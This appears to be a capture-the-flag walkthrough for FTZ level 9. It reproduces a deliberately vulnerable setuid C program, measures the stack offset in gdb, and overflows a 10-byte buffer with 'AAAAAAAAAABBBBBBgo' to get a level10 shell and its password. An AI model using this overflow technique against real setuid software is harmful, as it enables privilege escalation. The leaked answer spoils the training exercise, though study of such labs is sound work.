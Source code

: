 # Level9

## This level's goal

- BOF(Buffer OverFlow)

***

```
[level9@ftz level9]$ cat hint

다음은 /usr/bin/bof의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.

[level9@ftz tmp]$ ls -l /usr/bin/bof
-rws--x---    1 level10  level9      12111  8¿ù 19  2014 /usr/bin/bof
```
you cannot debug cuz level9 have only execute permission.

so, you need to make your another file and complie and debug
```
[level9@ftz tmp]$ cat bof.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

        char buf2[10];
        char buf[10];

        printf("It can be overflow : ");
        fgets(buf,40,stdin);
        
        # show the buffer memory address
        printf("&buf=0x%x, &buf2=0x%x, distance=0x000000%x / %d byte\n",buf, buf2, buf2-buf, buf2-buf);

        if ( strncmp(buf2, "go", 2) == 0 )
        {
            printf("Good Skill!\n");
            setreuid( 3010, 3010 );
            system("/bin/bash");
        }

}

[level9@ftz tmp]$ gcc -g -o bof bof.c

[level9@ftz tmp]$ ./bof
It can be overflow : AAAA
&buf=0xbffff150, &buf2=0xbffff160, distance=0x00000010 / 16 byte
```
The distance buf and buf2 is 16byte, and dummy stack between buf and buf2 is 6byte.

So, you need to input buf(10byte) and dummy(6byte) and the key string("go")

I will input "AAAAAAAAAABBBBBBgo"

```
[level9@ftz tmp]$ gdb bof
(gdb) disass main
0x08048493 <main+115>:  call   0x8048330 <strncmp>

(gdb) break *0x08048493
Breakpoint 1 at 0x8048493: file bof.c, line 15.

(gdb) run
Starting program: /home/level9/tmp/bof
It can be overflow : AAAAAAAAAABBBBBBgo
&buf=0xbfffe750, &buf2=0xbfffe760, distance=0x00000010 / 16 byte
Breakpoint 1, 0x08048493 in main () at bof.c:15
15              if ( strncmp(buf2, "go", 2) == 0 )

(gdb) x/s 0xbfffe750
0xbfffe750:      "AAAAAAAAAABBBBBBgo\n"

(gdb) x/s 0xbfffe760
0xbfffe760:      "go\n"

(gdb) continue
Continuing.
Good Skill!
```

```
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAABBBBBBgo
Good Skill!

[level10@ftz level9]$ my-pass
Level10 Password is "interesting to hack!".
```
